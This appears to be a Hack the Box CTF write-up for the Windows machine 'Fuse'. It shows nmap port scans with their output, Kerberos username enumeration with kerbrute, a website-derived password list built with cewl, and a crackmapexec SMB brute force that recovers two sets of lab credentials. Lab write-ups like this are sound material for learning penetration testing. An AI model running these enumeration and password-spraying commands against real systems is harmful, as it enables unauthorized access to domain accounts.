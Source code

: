 # Hack the Box - Fuse

```CSS
Machine IP: 10.10.10.193 - Windows

```

## Port Scanning and Service Discovery

```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 1000 10.10.10.193 -oN nmap.surface

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 16:31 IST
Nmap scan report for 10.10.10.193
Host is up (0.089s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49667/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49678/tcp open  unknown
49700/tcp open  unknown
49755/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 124.50 seconds
```
```CSS
▶ nmap -sC -sV -p 53,80,88,135,139,445,464,593,636,3268,3269,5985 10.10.10.193 -oN nmap.deep

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 16:35 IST
Nmap scan report for 10.10.10.193
Host is up (0.082s latency).

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-03-31 11:19:01Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-03-31T11:19:08
|_  start_date: 2023-03-31T11:04:24
|_clock-skew: mean: 2h33m08s, deviation: 4h02m31s, median: 13m07s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Fuse
|   NetBIOS computer name: FUSE\x00
|   Domain name: fabricorp.local
|   Forest name: fabricorp.local
|   FQDN: Fuse.fabricorp.local
|_  System time: 2023-03-31T04:19:09-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.49 seconds
```

---

## OS and Domain
  - CrackMapExec
```CSS
▶ crackmapexec smb 10.10.10.193
```
![image](https://user-images.githubusercontent.com/83878909/229113091-20e410db-ef11-4d3e-9840-7e5fcd065d14.png)

---

## Configuring DNS Resolution
  - Add Machine IP to `/etc/resolv.conf`.
  - Add Hostname to `/etc/hosts`

---

## Webpage
 ![image](https://user-images.githubusercontent.com/83878909/229113764-bbd518ab-82c4-4e6b-b1c3-cdaa511249e9.png)
 
### Gather Usernames
 - The webpage contains a bunch of usernames. Collecting the usernames and writing them to a text file.
![image](https://user-images.githubusercontent.com/83878909/229116611-0fd9d843-ea45-4b28-b88c-951983667aa8.png)
![image](https://user-images.githubusercontent.com/83878909/229116862-4f309a32-401b-421c-b947-9103d21a484f.png)
![image](https://user-images.githubusercontent.com/83878909/229117125-3e929593-e126-45ec-8a2e-116539f42d7c.png)

---

## Enumerate Usernames via Kerberos
  - Kebrute
```CSS
▶ kerbrute userenum --dc 10.10.10.193 -d fabricorp.local users.txt
```
![image](https://user-images.githubusercontent.com/83878909/229120245-34920022-fc71-41dd-b464-215c5a137658.png)

## Generate Passwords to Brute-Force
  - Cewl: Crawl the website to gather words which can be used as potential passwords.
```CSS
▶ cewl -d 7 -m 8 --with-numbers -w cewl.out http://fuse.fabricorp.local/papercut/logs/html/index.htm
```

---

## Brute Force Usernames and Passwords
  - CrackMapExec
```CSS
▶ crackmapexec smb 10.10.10.193 -u users.txt -p cewl.out
```
Credentials:
```CSS
bhult:Fabricorp01
tlavel:Fabricorp01
```

---


